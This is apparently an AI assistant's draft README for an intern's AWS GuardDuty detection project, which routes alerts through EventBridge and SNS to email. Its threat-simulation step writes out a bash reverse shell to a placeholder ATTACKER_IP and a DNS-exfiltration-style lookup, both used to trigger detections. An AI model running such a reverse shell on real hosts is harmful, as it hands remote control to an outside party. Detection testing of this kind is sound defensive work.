 Here’s a ready-to-use **GitHub project README** for your **GuardDuty + EC2 + SNS Alert Simulation** project. You can paste this directly into a new repository (`README.md`) on GitHub:

---

```markdown
# 🛡️ AWS GuardDuty Threat Detection Project

## 📌 Project Overview

This project demonstrates how to simulate and detect suspicious behavior on an EC2 instance using **Amazon GuardDuty**, and send real-time alerts to an email via **SNS (Simple Notification Service)**.

You will:
- Deploy an EC2 instance with simulated vulnerabilities
- Enable GuardDuty for threat detection
- Trigger test findings and real behavior (DNS exfiltration, reverse shell)
- Use EventBridge to forward GuardDuty alerts to SNS
- Receive alerts via email

---

## ⚙️ Architecture

```

\[EC2 Instance]
|
Simulated Threat
↓
\[GuardDuty]
↓
\[Amazon EventBridge Rule]
↓
\[Amazon SNS Topic]
↓
\[Email Notification]

````

---

## 🚀 Steps to Deploy

### 1. Launch EC2 Instance
- AMI: Amazon Linux 2 or 2023
- Instance Type: t2.micro
- Enable SSH and optionally HTTP/HTTPS in the Security Group
- Add this User Data (for Java setup):
```bash
#!/bin/bash
dnf install -y java-17-amazon-corretto
````

### 2. Simulate Threats on EC2

SSH into the instance and run:

```bash
# Simulate DNS exfiltration
dig $(uuidgen).yourdomain.com

# Simulate reverse shell (for test only)
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---

### 3. Enable GuardDuty

* Go to **Amazon GuardDuty** > Enable
* GuardDuty will begin monitoring for suspicious behavior

---

### 4. Create an SNS Topic

* Name: `GuardDutyAlerts`
* Subscribe your email (Confirm via email)

---

### 5. Setup EventBridge Rule

* Service: `aws.guardduty`
* Event type: `GuardDuty Finding`
* Target: SNS Topic `GuardDutyAlerts`

---

### 6. Generate Sample Findings (Optional)

```bash
aws guardduty list-detectors
aws guardduty create-sample-findings --detector-id <detector-id>
```

---

## 📧 Example Alert Email

You’ll receive an email like this when a finding occurs:

```json
{
  "source": "aws.guardduty",
  "detail-type": "GuardDuty Finding",
  "detail": {
    "type": "Recon:EC2/PortScan",
    "severity": 5,
    "resource": {
      "instanceDetails": {
        "instanceId": "i-xxxxxx"
      }
    }
  }
}
```

---

## 🧠 Learnings

* GuardDuty detects behavior, not vulnerabilities
* SNS + EventBridge is ideal for automated alerting
* Simulated attacks help test detection pipelines safely

---

## 📁 Folder Structure

```
.
├── README.md
├── ec2-userdata.sh          # EC2 startup script
├── generate-findings.sh     # AWS CLI script to generate test findings
└── screenshots/             # Optional: add your setup and output images
```

---

## 🛡️ Security Note

> All simulations were conducted in a secure, isolated AWS environment with no real malware or external C2 communication. Never use real attacks in production accounts.

---

## 📚 References

* [AWS GuardDuty Documentation](https://docs.aws.amazon.com/guardduty/)
* [AWS SNS](https://docs.aws.amazon.com/sns/)
* [AWS CLI Guide](https://docs.aws.amazon.com/cli/)

---

## 👨‍💻 Author

**Md Khiruzzaman**
Cloud Engineering Intern
GitHub: [mkovy39](https://github.com/mkovy39)

```

---

Would you like me to generate the folder structure and shell scripts too (`ec2-userdata.sh`, etc.)?
```
